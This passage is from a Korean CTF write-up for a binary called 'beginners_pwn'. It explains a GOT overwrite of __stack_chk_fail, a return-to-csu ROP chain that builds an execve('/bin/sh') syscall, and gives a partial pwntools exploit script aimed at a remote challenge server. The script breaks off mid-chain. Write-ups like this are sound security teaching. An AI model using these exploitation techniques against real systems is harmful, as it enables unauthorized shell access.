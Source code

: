 GOT가 정상적으로 덮인 것을 확인할 수 있다. 하위 4바이트만 덮어도 되는 이유는 이전에 이 함수가 호출된 적이 없어서 아직 GOT가 libc의 주소로 채워져 있지 않기 때문이다.

```shell
gdb-peda$ x/6gx $rsp-0x10
0x7ffc0ceeb5f8:	0x4141414141414141	0x4141414141414141
0x7ffc0ceeb608:	0x00007fa113afeb00	0x0000002000000000
0x7ffc0ceeb618:	0x00007ffc0ceeb6e8	0x0000000100000000
```

`main()`에서 `ret`이 실행되기 직전의 스택 상태이다. 우리가 입력한 dummy가 return address 직전까지 채워져 있다. 이 다음부터 ROP chain을 잘 구성하면 될 것 같다.

### ROP

libc leak은 못 할 것 같고, `readn()` 내부에 `syscall` 가젯이 있으니 그걸 활용해야 할 것 같다. 필요한 건 `"/bin/sh"` 문자열과 레지스터를 세팅할 수 있는 가젯들이다. `rdi`와 `rsi`를 세팅하는 가젯은 쉽게 찾을 수 있는데, `rax`와 `rdx`를 세팅하는 가젯은 찾을 수가 없었다. `rax`는 `readn()`을 호출해서 그 반환값을 이용하고, `rdx`는 return-to-csu 기법을 사용해서 세팅하면 될 것 같다.

우선 `readn()`을 호출해서 BSS 영역에 `"/bin/sh"`를 쓰고, 마지막 문자를 `';'(0x3b)`로 끝내서 `rax`를 `0x3b`(`execve()`의 system call number)로 만든다. 그리고 return-to-csu를 수행해서 `rdi`는 `"/bin/sh"`의 주소로, `rsi`와 `rdx`는 0으로 세팅한 후 `syscall`을 실행하면 쉘을 획득할 수 있을 것이다.

---

## Exploit

```python
# exploit_beginners_pwn.py

from pwn import *

# r = process("./beginners_pwn")
r = remote("35.221.81.216", 30002)

stackchk_got = 0x404018 # GOT address of __stack_chk_fail()
main = 0x401255 # address of "leave; ret" in main()
pop_rdi = 0x4012c3 # address of "pop rdi; ret" gadget
pop_rsi_r15 = 0x4012c1 # address of "pop rsi; pop r15; ret" gadget
syscall = 0x40118f # address of "syscall" gadget
bss = 0x404100 # address of BSS section
readn = 0x401146 # address of readn()
csu1 = 0x4012ba
csu2 = 0x4012a0

payload = "%" + "s %7$d"
payload = payload.ljust(8, '\x00')
payload += p64(stackchk_got)

r.sendline(payload)

payload = "A" * 0x18

# ROP
payload += p64(pop_rdi)
payload += p64(bss)
payload += p64(pop_rsi_r15)
payload += p64(0x11)
payload += p64(0)
payload += p64(readn)
# rax == 0x3b

payload += p64(csu1)
payload += p64(0) # rbx
payload += p64(0) # rbp
payload += p64(bss) # rdi
```